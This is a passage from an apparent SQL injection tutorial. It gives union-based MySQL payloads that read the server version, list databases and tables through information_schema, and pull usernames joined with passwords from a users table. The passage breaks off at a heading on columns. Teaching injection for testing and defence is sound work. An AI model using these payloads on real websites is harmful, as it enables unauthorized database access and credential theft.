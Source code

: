 You can control what do you want to show, MySQL example:
```mysql
...' union select "test",@@version-- -
```

the first input is "test" is for the first column, and the second column obtain the version. If only return one result and the column have more data, they fill all the column with the same data. You can test numbers, null. functions... Sometimes union select don't work and return an error.

Some functions in MySQL:

- user()
- database()

Most of the time this information is show in some part of the web, but sometimes doesn't show and you have to play blind
### 2. Obtain the database names

In MySQL with `database()` you can obtain the database that is using, but if you want to know all you can use this command:

```mysql
...' union select "test",schema_name from information_schema.schemata-- -
```

Other times you can't see all the names of the databases, for example because doesn't exist enought fields of data to show the name of databases. 
You can play with **groupconcat()** (join several rows in a string) function or **concat()** (join different values in one sring inside a row) and show all in the same field.

```mysql
...' union select "test",group_concat(schema_name) from information_schema.schemata-- -
```

You can concadenate with double pipe `||`

```mysql
' union select username || '-> ' || password from users-- -
```

You can use **limit** but is very slow:

```mysql
...' union select "test",schema_name from information_schema.schemata limit 0,1-- -
```

You can iterate 1,1 2,1

### 3. Obtain the tables of a database

When you found the database that you want to inspect, you can obtain the table names:

```mysql
...' union select "test",group_concat(table_name) from information_schema.tables where table_schema='login'-- -
```

### 4. Obtain the columns

